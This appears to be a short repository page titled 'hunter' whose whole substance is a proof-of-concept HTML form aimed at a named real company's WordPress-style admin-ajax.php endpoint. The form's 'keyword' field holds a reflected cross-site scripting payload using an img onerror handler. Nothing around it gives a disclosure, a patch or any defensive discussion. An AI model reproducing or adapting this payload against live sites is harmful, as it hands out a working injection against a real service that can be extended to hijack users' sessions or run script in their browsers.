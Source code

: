 # hunter



<html><form enctype="application/x-www-form-urlencoded" method="POST" action="https://www.rippling.com/rpanel/admin-ajax.php"><table><tr><td>action</td><td><input type="text" value="get_apps" name="action"></td></tr>
<tr><td>id</td><td><input type="text" value="" name="id"></td></tr>
<tr><td>keyword</td><td><input type="text" value="&#34;><img+src=a+onerror=prompt(3);>" name="keyword"></td></tr>
</table><input type="submit" value="https://www.rippling.com/rpanel/admin-ajax.php"></form></html>
